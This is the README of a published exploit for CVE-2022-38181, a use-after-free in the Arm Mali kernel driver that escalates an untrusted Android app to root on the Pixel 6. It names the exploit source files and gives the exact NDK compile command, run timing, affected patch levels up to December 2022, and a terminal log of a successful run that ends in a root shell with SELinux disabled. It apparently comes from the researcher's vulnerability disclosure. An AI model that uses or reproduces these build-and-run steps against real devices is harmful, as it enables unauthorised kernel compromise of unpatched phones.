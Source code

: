## Exploit for CVE-2022-38181

The write up can be found [here](https://github.blog/2023-01-23-pwning-the-all-google-phone-with-a-non-google-bug). This is a bug in the Arm Mali kernel driver that I reported in July 2022. The bug can be used to gain arbitrary kernel code execution from the untrusted app domain, which is then used to disable SELinux and gain root.

The exploit is tested on the Google Pixel 6. The original exploit that was sent to Google is included as `hello-jni.c` as a reference and was tested on the July 2022 patch of the Pixel 6. Due to the fact that Pixel 6 cannot be downgraded from Android 13 to Android 12, an updated version of the exploit, `mali_shrinker_mmap.c` is included, which supports various firmware in Android 13, including the December patch, which is the latest affected version. For reference, I used the following command to compile with clang in ndk-21:

```
android-ndk-r21d-linux-x86_64/android-ndk-r21d/toolchains/llvm/prebuilt/linux-x86_64/bin/aarch64-linux-android30-clang -DSHELL mali_shrinker_mmap.c -o mali_shrinker_mmap
```

The exploit should be run a couple of minutes after boot and should be fairly reliable. If successful, it should disable SELinux and gain root.

```
oriole:/ $ /data/local/tmp/mali_shrinker_mmap
fingerprint: google/oriole/oriole:13/TQ1A.221205.011/9244662:user/release-keys
failed, retry.
failed, retry.
region freed 51
read 0
cleanup flush region
jit_freed
jit_free commit: 0 0
Found freed_idx 0
Found pgd 20, 769c414000
overwrite addr : 7701100710 710
overwrite addr : 7700f00710 710
overwrite addr : 7701100710 710
overwrite addr : 7700f00710 710
overwrite addr : 7700d00710 710
overwrite addr : 7700f00710 710
overwrite addr : 7700d00710 710
overwrite addr : 7701100fd4 fd4
overwrite addr : 7700f00fd4 fd4
overwrite addr : 7701100fd4 fd4
overwrite addr : 7700f00fd4 fd4
overwrite addr : 7700d00fd4 fd4
overwrite addr : 7700f00fd4 fd4
overwrite addr : 7700d00fd4 fd4
result 50
oriole:/ # 
```

